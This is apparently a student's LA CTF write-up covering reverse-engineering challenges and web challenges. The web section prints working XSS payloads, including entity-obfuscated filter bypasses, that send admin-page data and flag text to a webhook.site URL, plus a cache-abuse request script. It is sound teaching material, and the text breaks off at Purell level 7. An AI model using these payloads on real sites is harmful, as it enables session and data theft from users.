




## Background Information

First ctf with FFF! I rly should have tried more on the 2nd-3rd day, but i went to sleep lol.

DISCLAIMER: I'LL ADD MORE WRITEUPS LATER FOR CRYPTO AND STUFF. I HAVE MAT CALC III TEST AND WAVES AND MODERN PHYSICS TEST TO STUDY FOR 

## Reverse Engineering

### javascryption

> You wake up alone in a dark cabin, held captive by a bushy-haired man demanding you submit a "flag" to leave. Can you escape?

We access a link at javascryption.chall.lac.tf, and we see that it is a web interface that asks us for a flag:



Well based on the challenge description, we need to access javascript code, thankfully there contains javascript code in `cabin.js`

```javascript
const msg = document.getElementById("msg");
const flagInp = document.getElementById("flag");
const checkBtn = document.getElementById("check");

function checkFlag(flag) {
    const step1 = btoa(flag);
    const step2 = step1.split("").reverse().join("");
    const step3 = step2.replaceAll("Z", "[OLD_DATA]");
    const step4 = encodeURIComponent(step3);
    const step5 = btoa(step4);
    return step5 === "JTNEJTNEUWZsSlglNUJPTERfREFUQSU1RG85MWNzeFdZMzlWZXNwbmVwSjMlNUJPTERfREFUQSU1RGY5bWI3JTVCT0xEX0RBVEElNURHZGpGR2I=";
}

checkBtn.addEventListener("click", () => {
    const flag = flagInp.value.toLowerCase();
    if (checkFlag(flag)) {
        flagInp.remove();
        checkBtn.remove();
        msg.innerText = flag;
        msg.classList.add("correct");
    } else {
        checkBtn.classList.remove("shake");
        checkBtn.offsetHeight;
        checkBtn.classList.add("shake");
    }
});
```

We find a base64 encoded string, and when decoding it we get: ```%3D%3DQflJX%5BOLD_DATA%5Do91csxWY39VespnepJ3%5BOLD_DATA%5Df9mb7%5BOLD_DATA%5DGdjFGb```

URL decoding this, we get ```==QflJX[OLD_DATA]o91csxWY39VespnepJ3[OLD_DATA]f9mb7[OLD_DATA]GdjFGb```. Let's now replace [OLD_DATA] with Z just like in the code.

Replacing and decoding the encoded text in base64 gives us the flag: ```lactf{no_grizzly_walls_here}```

### patricks-paraflag


> I was going to give you the flag, but I dropped it into my parabox, and when I pulled it back out, it got all scrambled up!
>
> Can you recover the flag?

Well, we get a binary `patricks-paraflag`, and when running it we get: 

```bash
jake@computer:~/ctf-dump/lactf/patrick-paraflag$ ./patricks-paraflag 
What do you think the flag is? a
Bad length >:(
```

Ok, so let's actually analyze the code behind this. Using a decompiler we get the following code:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  size_t v3; // rbx
  size_t v4; // rcx
  size_t v5; // rax
  int v6; // ebx
  char v8[256]; // [rsp+0h] [rbp-208h] BYREF
  char s[264]; // [rsp+100h] [rbp-108h] BYREF

  printf("What do you think the flag is? ");
  fflush(_bss_start);
  fgets(s, 256, stdin);
  v3 = strcspn(s, "\n");
  s[v3] = 0;
  if ( strlen(target) == v3 )
  {
    v4 = v3 >> 1;
    if ( v3 > 1 )
    {
      v5 = 0LL;
      do
      {
        v8[2 * v5] = s[v5];
        v8[2 * v5 + 1] = s[v4 + v5];
        ++v5;
      }
      while ( v5 < v4 );
    }
    v8[v3] = 0;
    printf("Paradoxified: %s\n", v8);
    v6 = strcmp(target, v8);
    if ( v6 )
    {
      puts("You got the flag wrong >:(");
      return 0;
    }
    else
    {
      puts("That's the flag! :D");
    }
  }
  else
  {
    puts("Bad length >:(");
    return 1;
  }
  return v6;
}
```

Ok we first see input is checked to match a certain length, then splitting it into two halves, then a new string by alternating even and odd characters from the first and second half of the code.

Running `strings` we can already see the obfuscated flag: `l_alcotsft{_tihne__ifnlfaign_igtoyt}`

Now that we understand the process of the code, we can just reverse the process.

```python
target = "l_alcotsft{_tihne__ifnlfaign_igtoyt}"

evens = target[::2]    
odds = target[1::2]   

flag = evens + odds

print(flag)
```

And we get the flag: `lactf{the_flag_got_lost_in_infinity}`

### nine-solves

> Let's make a promise that on that day, when we meet again, you'll take the time to tell me the flag.
>
> You have no more unread messages from LA CTF.
> nc chall.lac.tf 32223

Putting this code into a decompiler we can analyze the code:

```c
//-------------------------------------------------------------------------
// Data declarations

void *_dso_handle = &_dso_handle; // idb
_DWORD yi[6] = { 27, 38, 87, 95, 118, 9 }; // weak
_UNKNOWN _bss_start; // weak
FILE *stdout; // idb
FILE *stdin; // idb
char completed_0; // weak


//----- (0000000000001000) ----------------------------------------------------
__int64 (**init_proc())(void)
{
  __int64 (**result)(void); // rax

  result = &_gmon_start__;
  if ( &_gmon_start__ )
    return (__int64 (**)(void))_gmon_start__();
  return result;
}
// 40D0: using guessed type __int64 _gmon_start__(void);

//----- (0000000000001020) ----------------------------------------------------
void sub_1020()
{
  JUMPOUT(0LL);
}
// 1026: control flows out of bounds to 0

//----- (00000000000010A0) ----------------------------------------------------
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 i; // rsi
  unsigned int v4; // eax
  int v5; // ecx
  int v6; // edx
  char v8[6]; // [rsp+0h] [rbp-18h] BYREF
  char v9; // [rsp+6h] [rbp-12h]

  puts("Welcome to the Tianhuo Research Center.");
  printf("Please enter your access code: ");
  fflush(stdout);
  fgets(v8, 16, stdin);
  for ( i = 0LL; i != 6; ++i )
  {
    v4 = v8[i];
    if ( (unsigned __int8)(v8[i] - 32) > 0x5Eu )
      goto LABEL_14;
    v5 = yi[i];
    if ( !v5 )
      goto LABEL_14;
    v6 = 0;
    while ( (v4 & 1) == 0 )
    {
      ++v6;
      v4 >>= 1;
      if ( v5 == v6 )
        goto LABEL_9;
LABEL_6:
      if ( v4 == 1 )
        goto LABEL_14;
    }
    ++v6;
    v4 = 3 * v4 + 1;
    if ( v5 != v6 )
      goto LABEL_6;
LABEL_9:
    if ( v4 != 1 )
      goto LABEL_14;
  }
  if ( !v9 || v9 == 10 )
  {
    eigong();
    return 0;
  }
LABEL_14:
  puts("ACCESS DENIED");
  return 1;
}

//----- (0000000000001260) ----------------------------------------------------
bool __fastcall shuanshuan(unsigned int a1, int a2)
{
  int v2; // eax

  if ( !a2 )
    return a1 == 1;
  if ( a1 != 1 )
  {
    v2 = 0;
    do
    {
      if ( (a1 & 1) != 0 )
      {
        ++v2;
        a1 = 3 * a1 + 1;
        if ( a2 == v2 )
          return a1 == 1;
      }
      else
      {
        ++v2;
        a1 >>= 1;
        if ( a2 == v2 )
          return a1 == 1;
      }
    }
    while ( a1 != 1 );
  }
  return 0;
}

//----- (00000000000012B0) ----------------------------------------------------
int eigong()
{
  FILE *v0; // rax
  char v2[264]; // [rsp+0h] [rbp-108h] BYREF

  v0 = fopen("flag.txt", "rb");
  if ( !v0 )
    return puts("Could not open flag.txt");
  fgets(v2, 256, v0);
  v2[strcspn(v2, "\n")] = 0;
  return puts(v2);
}
// 12B0: using guessed type char var_108[264];

```

So we have a hardcoded array `_DWORD yi[6] = { 27, 38, 87, 95, 118, 9 };`, and the program prompts us for a 6-character access code. 

For each character of our access code, it performs an algorithm called the [`Collatz Conjecture`](https://en.wikipedia.org/wiki/Collatz_conjecture), where the program will:

The Collatz Conjecture is as follows:

Consider the following operation on an arbitrary positive integer:

If the number is even, divide it by two.
If the number is odd, triple it and add one.

Now form a sequence by performing this operation repeatedly, beginning with any positive integer, and taking the result at each step as the input at the next.

The Collatz conjecture is: This process will eventually reach the number 1, regardless of which positive integer is chosen initially.


1. Take the decimal / ASCII value of the character
2. While the number isn't 1:
- If number is even, divide by 2
- If number is odd, multiplay by 3 and add 1
3. Count the steps it takes to reach 1
4. Compare the count with the corresponding value in yi
5. If everything matches, it calls `eigong()`, which will output `flag.txt`

Essentially we need to find 6 characters whose Collatz sequence lengths will match [27, 38, 87, 95, 118, 9].

Let's write a quick script that will generate numbers in the printable ASCII character range that has collatz sequence counts that match the ascii numbers needed for the access code:

```python
from pwn import *


r = remote('chall.lac.tf', 32223)

def collatz_steps(n):
    steps = 0
    while n != 1:
        steps += 1
        if n % 2 == 0:
            n = n // 2
        else:
            n = 3 * n + 1
    return steps

# yi array
targets = [27, 38, 87, 95, 118, 9]
result = []

for target in targets:
    for c in range(32, 127):
        if collatz_steps(c) == target:
            result.append(chr(c))
            break

print(''.join(result))

r.sendline(''.join(result))
r.interactive()
```

Running it, we get the flag:

```bash
Welcome to the Tianhuo Research Center.
Please enter your access code: lactf{the_only_valid_solution_is_BigyaP}
```

### the-eye

> I believe we’ve reached the end of our journey. All that remains is to collapse the innumerable possibilities before us.
> nc chall.lac.tf 31313

Let's read the code: 

```c
void *read_msg()
{
  void *ptr; // [rsp+8h] [rbp-18h]
  FILE *stream; // [rsp+10h] [rbp-10h]
  __int64 n; // [rsp+18h] [rbp-8h]

  stream = fopen("msg.txt", "rb");
  if ( !stream )
  {
    puts("msg.txt is missing");
    exit(1);
  }
  fseek(stream, 0LL, 2);
  n = ftell(stream);
  ptr = malloc(n + 1);
  fseek(stream, 0LL, 0);
  fread(ptr, 1uLL, n, stream);
  fclose(stream);
  if ( *((_BYTE *)ptr + n - 1) == 10 )
    --n;
  *((_BYTE *)ptr + n) = 0;
  return ptr;
}

//----- (00000000000012E2) ----------------------------------------------------
__int64 __fastcall shuffle(const char *a1)
{
  __int64 result; // rax
  unsigned __int8 v2; // [rsp+13h] [rbp-Dh]
  int v3; // [rsp+14h] [rbp-Ch]
  int i; // [rsp+1Ch] [rbp-4h]

  result = (unsigned int)strlen(a1) - 1;
  for ( i = result; i >= 0; --i )
  {
    v3 = rand() % (i + 1);
    v2 = a1[i];
    a1[i] = a1[v3];
    result = v2;
    a1[v3] = v2;
  }
  return result;
}

//----- (000000000000136C) ----------------------------------------------------
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char *s; // [rsp+0h] [rbp-10h]
  int i; // [rsp+Ch] [rbp-4h]

  v3 = time(0LL);
  srand(v3);
  s = (char *)read_msg();
  for ( i = 0; i <= 21; ++i )
    shuffle(s);
  puts(s);
  free(s);
  return 0;
}
```

The code first calls a srand(), seeding it with the current time. It then reads a file called `msg.txt`, allocating it within `s`.

The program will then loop from 0 to 21, peforming `shuffle` on the string.

In `shuffle`, the program will essentially swap the index of the string to a random position with rand().

So what now? Well, the vulnerability lies within the seeding. If we just mimic the program's randomization, we can easily just reverse the process and get the actual text.

Let's write a python solve script:

```python
from pwn import *
from ctypes import CDLL, c_uint32, c_int
import time
import os


libc = CDLL('libc.so.6')

# Get C srand and rand functions to mimic cus python very different chat
c_srand = libc.srand
c_srand.argtypes = [c_uint32]
c_srand.restype = None

c_rand = libc.rand
c_rand.argtypes = []
c_rand.restype = c_int

def get_shuffle_sequence(length, num_shuffles=22):
    
    sequences = []
    for _ in range(num_shuffles):
        sequence = []
        #reverse the sawp
        for i in range(length - 1, -1, -1):
            j = c_rand() % (i + 1)
            sequence.append((i, j))
        sequences.append(sequence)
    return sequences

def reverse_shuffle(s, shuffle_sequence):
    
    s = list(s)
    # Apply the swaps in reverse order
    for i, j in reversed(shuffle_sequence):
        s[i], s[j] = s[j], s[i]
    return ''.join(s)

def solve_challenge(host, port):
    
    conn = remote(host, port)
    
    current_time = int(time.time())
    c_srand(c_uint32(current_time))
    
   
    shuffled = conn.recvline().strip().decode()
    log.info(f"Received shuffled message: {shuffled}")
    
  
    sequences = get_shuffle_sequence(len(shuffled))
    
    
    message = shuffled
    for sequence in reversed(sequences):
        message = reverse_shuffle(message, sequence)
        log.info(f"After reverse shuffle: {message}")
    
    log.success(f"Recovered message: {message}")
    return message

    
HOST = 'chall.lac.tf' 
PORT = 31313       

result = solve_challenge(HOST, PORT)

print(result)
```

And we get the following plaintext: 

```Outer Wilds is an action-adventure video game set in a small planetary system in which the player character, an unnamed space explorer referred to as the Hatchling, explores and investigates its mysteries in a self-directed manner. Whenever the Hatchling dies, the game resets to the beginning; this happens regardless after 22 minutes of gameplay due to the sun going supernova. The player uses these repeated time loops to discover the secrets of the Nomai, an alien species that has left ruins scattered throughout the planetary system, including why the sun is exploding. A downloadable content expansion, Echoes of the Eye, adds additional locations and mysteries to the game. lactf{are_you_ready_to_learn_what_comes_next?}```

Flag: `lactf{are_you_ready_to_learn_what_comes_next?}`

## Web

### mavs-fan

> Just a Mavs fan trying to figure out what Nico Harrison cooking up for my team nowadays...
>
> Hint - You can send a link to your post that the admin bot will visit. Note that the admin cookie is HttpOnly!
>
> Site - mavs-fan.chall.lac.tf
>
> Admin Bot - https://admin-bot.lac.tf/mavs-fan

Ok, so looking at this website, we see that it's like a blogging / chat room website. There being an admin bot hints at this challenge being XSS-based. 



Let's read the basic code first:

```javascript
app.post('/api/post', (req, res) => {
    const { message } = req.body;
    const newId = crypto.randomUUID();
    if (message) {
        posts.set(newId, {message: message, published: false});
    }
    return res.redirect(`/post/${newId}`);
});

app.get('/api/post/:id', (req, res) => {
    const post = posts.get(req.params.id);
    if (!post) return res.status(404).send('Post not found');
    return res.json(post);
});
```

So we can basically just post things, and it will show on the frontend. Here's the frontend code:

```html
async function loadPost() {
            try {
                const response = await fetch(`/api/post/${postId}`);
                
                if (!response.ok) {
                    throw new Error('Post not found');
                }
                
                const post = await response.json();
                
                document.getElementById('post-id').innerHTML = `Post ID ${postId}`;
                document.getElementById('post-content').innerHTML = post.message;
                
            } catch (error) {
                document.querySelector('.post-container').innerHTML = `
                    <div class="error-message">
                        <h2>Error loading post</h2>
                        <p>${error.message}</p>
                    </div>
                `;
            }
```

Ok, so we see a pretty clear vulnerability. The web program doesn't filter XSS nor are there any like real protections

We can basically just send a basic payload that will perform xss. Let's first send `<image/src/onerror="alert(1)">`. And it works!



Ok, now to get the flag from admin page, 

From the codebase, we find the admin function:

```
app.get('/admin', (req, res) => {
    if (!req.cookies.secret || req.cookies.secret !== ADMIN_SECRET) {
        return res.redirect("/");
    }
    return res.json({ trade_plan: FLAG });
});
```

For xss challenges, we can just set up a `webhook.site`, and collect the flag through javascript by sending a request to that webhook when we xss.

Here's the payload, make sure that we process it for json:

```
<image/src/onerror="javascript:fetch('/admin').then(r=>r.json()).then(data=>window.location='https://webhook.site/8ce223b4-e8ed-4613-935e-d791e7c8aaca?flag='+encodeURIComponent(JSON.stringify(data)));">
```

And... we get the flag: `lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}`

### cache it to win it!

Are YOU today's unlucky contestant in Cache! It! To! Win! It???????

> Find out below!
>
> cache-it-to-win-it.chall.lac.tf
>
> Note: do NOT perform any sort of denial-of-service attack against the web server or databases, directly or indirectly.

ok, opening up the website, we can see that we are provided a unique ID, and the ability to check if we are a winner, in which we have to wait like 7 days to attempt again.



Let's read (most) of the source code:

```python
@app.route("/")
def index():
    if "id" not in request.cookies:
        unique_id = str(uuid.uuid4())
        run_query("INSERT INTO users VALUES (%s, %s);", (unique_id, 0))
    else:
        unique_id = request.cookies.get("id")
        res = run_query("SELECT * FROM users WHERE id = %s;", (unique_id,))
        print(res, flush=True)
        if "affected_rows" not in res:
            print("ERRROR:", res)
            return "ERROR"
        if res["affected_rows"] == 0:
            unique_id = str(uuid.uuid4())
            run_query("INSERT INTO users VALUES (%s, %s);", (unique_id, 0))

    html = f"""
    <!DOCTYPE html>
    <html>
    <head>
        <title>{unique_id}</title>
    </head>
    <body>
        <h1>Your unique account ID: {unique_id}</h1>
        <p><a href="/check?uuid={unique_id}">Click here to check if you are a winner!</a></p>
    </body>
    </html>
    """
    r = Response(html)
    r.set_cookie("id", unique_id)
    return r


def normalize_uuid(uuid: str):
    uuid_l = list(uuid)
    i = 0
    for i in range(len(uuid)):
        uuid_l[i] = uuid_l[i].upper()
        if uuid_l[i] == "-":
            uuid_l.pop(i)
            uuid_l.append(" ")

    return "".join(uuid_l)


def make_cache_key():
    return f"GET_check_uuids:{normalize_uuid(request.args.get('uuid'))}"[:64]  # prevent spammers from filling redis cache


check_bp = Blueprint("check_bp", __name__)


@check_bp.route("/check")
@cache.cached(timeout=604800, make_cache_key=make_cache_key)
def check():
    user_uuid = request.args.get("uuid")
    if not user_uuid:
        return {"error": "UUID parameter is required"}, 400

    run_query("UPDATE users SET value = value + 1 WHERE id = %s;", (user_uuid,))
    res = run_query("SELECT * FROM users WHERE id = %s;", (user_uuid,))
    g.cache_hit = False
    if "affected_rows" not in res:
        print("ERRROR:", res)
        return "Error"
    if res["affected_rows"] == 0:
        return "Invalid account ID"
    num_wins = res["result"][0]["value"]
    if num_wins >= 100:
        return f"""CONGRATS! YOU HAVE WON.............. A FLAG! {os.getenv("FLAG")}"""
    return f"""<p>Congrats! You have won! Only {100 - res["result"][0]["value"]} more wins to go.</p>
    <p>Next attempt allowed at: {(datetime.datetime.now() + datetime.timedelta(days=7)).isoformat(sep=" ")} UTC</p><p><a href="/">Go back to the homepage</a></p>"""


# Hack to show to the user in the X-Cached header whether or not the response was cached
# How in the world does the flask caching library not support adding this header?????
@check_bp.after_request
def add_cache_header(response):
    if hasattr(g, "cache_hit") and not g.cache_hit:
        response.headers["X-Cached"] = "MISS"
    else:
        response.headers["X-Cached"] = "HIT"

    g.cache_hit = True

    return response
```

Ok, so reading through this, the vulnerability is set here:

```python
def check():
    user_uuid = request.args.get("uuid")
    if not user_uuid:
        return {"error": "UUID parameter is required"}, 400

    run_query("UPDATE users SET value = value + 1 WHERE id = %s;", (user_uuid,))
    res = run_query("SELECT * FROM users WHERE id = %s;", (user_uuid,))
    g.cache_hit = False
    if "affected_rows" not in res:
        print("ERRROR:", res)
        return "Error"
    if res["affected_rows"] == 0:
        return "Invalid account ID"
    num_wins = res["result"][0]["value"]
```
DISCLAIMER: act i dont exactly know what the vulnerability is, i just saw DOS, and decided to like fuzz the server to see what works. This is basically just a guess. 

Essentially, the value is updated before the cache is checked. We can abuse this by sending in a shit ton of similar uuids. Also, through a bit of testing I found that if you add %20 at the end, the win counter gets updated!

So after a long time of testing that to see what wins, I was capped out at like 13/100 wins. However, I decided to just go from %1 to %9 and see what happens. I got more wins than 13! 

I quickly just made a shitty script that will go from %1 to %9 then just append numbers to that in a two dimensional list kinda way (ex. %11 -> %99, then %111 to %999). Also I found that if the cache returns MISS we usually win. idk it j works.

```python
import requests
import time
import re

def get_uuid(url):
    r = requests.get(url)
    uuid_match = re.search(r'Your unique account ID: ([a-f0-9-]{36})', r.text)
    if not uuid_match:
        raise Exception("Couldn't find UUID in response")
    return uuid_match.group(1)

def create_cache_collisions(uuid):
    # Remove existing dashes
    uuid = uuid.replace('-', '')
    variations = []
    variations.append(f"{uuid[:8]}-{uuid[8:12]}-{uuid[12:16]}-{uuid[16:20]}-{uuid[20:]}")

    for j in range(1,100):
        for i in range(1, 10):
            variations.append(f"{uuid[:8]}-{uuid[8:12]}-{uuid[12:16]}-{uuid[16:20]}-{uuid[20:]}{('%0'+str(i)) * j}")
    return variations

def solve(url):
    print("[+] Getting initial UUID...")
    uuid = get_uuid(url)
    print(f"[+] Got UUID: {uuid}")
    
    variations = create_cache_collisions(uuid)
    print(f"[+] Created {len(variations)} cache key variations")
    
    wins = 0
    i = 0
    while wins < 100:
        variation = variations[i]
        i += 1
        
        check_url = f"{url}/check?uuid={variation}"
        r = requests.get(check_url)
        print(f"[+] Trying: {variation}")
        print(f"[+] Cache: {r.headers.get('X-Cached')}")
        
        if "lactf" in r.text:
            flag = re.search(r'lactf\{[^}]+\}', r.text)
            if flag:
                print(f"\n[+] Found flag: {flag.group(0)}")
                return
                
        wins_match = re.search(r'(\d+) more wins to go', r.text)
        if wins_match:
            remaining = int(wins_match.group(1))
            wins = 100 - remaining
            print(f"[+] Current wins: {wins}/100")
            
url = "http://cache-it-to-win-it.chall.lac.tf"
solve(url)
```
And we get the flag: `lactf{my_c4ch3_f41l3d!!!!!!!}`

### Purell

> Here in purellland, we sanitize your inputs. We kill 99% of germs, can you be the 1% germ that slips through?
>
> purell.chall.lac.tf
>
> Note: when giving links to the admin bot, the link must be exactly of the form https://purell.chall.lac.tf/level/LEVEL_NAME?html=YOUR_PAYLOAD_HERE.

This is essentially a xss level where you xss the admin bot and collect a token to level up and go to a more difficult level. I'm not really going into description but will just provide the payloads + filters in the challenge.

kinda just cheesed the last few levels. Oh yeah each leavel solve gives part of the flag.

Level 1:

- Filter: None
- Payload: `<script>location='https://webhook.site/8ce223b4-e8ed-4613-935e-d791e7c8aaca?flag='+document.querySelector('.flag').innerText</script>`
- Token: `purell-token{gu4u_of_exf1l}`
- Flag: `lactf{1_4m_z3_`

Level 2:

- Filter: (html) => html.includes('script') || html.length > 150 ? 'nuh-uh' : html
- Payload: ``
- Token: `purell-token{scr7ptl355_m3n4c3}`
- Flag: `b3s7_x40ss_`


Level 3:

- Filter: (html) => html.includes('script') || html.includes('on') || html.length > 150 ? 'nuh-uh' : html
- Payload: ``
- Token: `purell-token{XSS_IS_UNSTOPPABLE_RAHHHH}`
- Flag: `h4nd_g34m_`

Level 4:

- Filter: (html) => html.toLowerCase().replaceAll('script', '').replaceAll('on', '')
- Payload: 
```
<svg oonnload="&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x3d;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x77;&#x65;&#x62;&#x68;&#x6f;&#x6f;&#x6b;&#x2e;&#x73;&#x69;&#x74;&#x65;&#x2f;&#x38;&#x63;&#x65;&#x32;&#x32;&#x33;&#x62;&#x34;&#x2d;&#x65;&#x38;&#x65;&#x64;&#x2d;&#x34;&#x36;&#x31;&#x33;&#x2d;&#x39;&#x33;&#x35;&#x65;&#x2d;&#x64;&#x37;&#x39;&#x31;&#x65;&#x37;&#x63;&#x38;&#x61;&#x61;&#x63;&#x61;&#x3f;&#x66;&#x6c;&#x61;&#x67;&#x3d;&#x27;&#x2b;&#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x71;&#x75;&#x65;&#x72;&#x79;&#x53;&#x65;&#x6c;&#x65;&#x63;&#x74;&#x6f;&#x72;&#x28;&#x27;&#x2e;&#x66;&#x6c;&#x61;&#x67;&#x27;&#x29;&#x2e;&#x69;&#x6e;&#x6e;&#x65;&#x72;&#x54;&#x65;&#x78;&#x74;"//
```
- Token: `purell-token{a_l7l_b7t_0f_m00t4t70n}`
- Flag: 4cr0ss_411_t1m3

Level 5:

- Filter: (html) => html .toLowerCase().replaceAll('script', '').replaceAll('on', '') .replaceAll('>', '')
- Payload: 
```
<svg oonnload="&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x3d;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x77;&#x65;&#x62;&#x68;&#x6f;&#x6f;&#x6b;&#x2e;&#x73;&#x69;&#x74;&#x65;&#x2f;&#x38;&#x63;&#x65;&#x32;&#x32;&#x33;&#x62;&#x34;&#x2d;&#x65;&#x38;&#x65;&#x64;&#x2d;&#x34;&#x36;&#x31;&#x33;&#x2d;&#x39;&#x33;&#x35;&#x65;&#x2d;&#x64;&#x37;&#x39;&#x31;&#x65;&#x37;&#x63;&#x38;&#x61;&#x61;&#x63;&#x61;&#x3f;&#x66;&#x6c;&#x61;&#x67;&#x3d;&#x27;&#x2b;&#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x71;&#x75;&#x65;&#x72;&#x79;&#x53;&#x65;&#x6c;&#x65;&#x63;&#x74;&#x6f;&#x72;&#x28;&#x27;&#x2e;&#x66;&#x6c;&#x61;&#x67;&#x27;&#x29;&#x2e;&#x69;&#x6e;&#x6e;&#x65;&#x72;&#x54;&#x65;&#x78;&#x74;"//
```
- Token: `purell-token{html_7s_m4lf0rmed_bu7_no7_u}`
- Flag: _4nd_z_

Level 6:

- Filter: (html) => html .toLowerCase().replaceAll('script', '').replaceAll('on', '') .replaceAll('>', '') .replace(/\s/g, '')
- Payload: 
```
<svg/oonnload="&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x3d;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x77;&#x65;&#x62;&#x68;&#x6f;&#x6f;&#x6b;&#x2e;&#x73;&#x69;&#x74;&#x65;&#x2f;&#x38;&#x63;&#x65;&#x32;&#x32;&#x33;&#x62;&#x34;&#x2d;&#x65;&#x38;&#x65;&#x64;&#x2d;&#x34;&#x36;&#x31;&#x33;&#x2d;&#x39;&#x33;&#x35;&#x65;&#x2d;&#x64;&#x37;&#x39;&#x31;&#x65;&#x37;&#x63;&#x38;&#x61;&#x61;&#x63;&#x61;&#x3f;&#x66;&#x6c;&#x61;&#x67;&#x3d;&#x27;&#x2b;&#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x71;&#x75;&#x65;&#x72;&#x79;&#x53;&#x65;&#x6c;&#x65;&#x63;&#x74;&#x6f;&#x72;&#x28;&#x27;&#x2e;&#x66;&#x6c;&#x61;&#x67;&#x27;&#x29;&#x2e;&#x69;&#x6e;&#x6e;&#x65;&#x72;&#x54;&#x65;&#x78;&#x74;"//
```
- Token: `purell-token{wh3n_th3_imp0st4_i5_5u5_bu7_th3r35_n0_sp4c3}`
- Flag: un1v3rs3

Level 7:

- Filter: (html) => html .toLowerCase().replaceAll('script', '').replaceAll('on', '') .replaceAll('>', '') .replace(/\s/g, '') .replace(/[()]/g, '')
- Payload: 
```
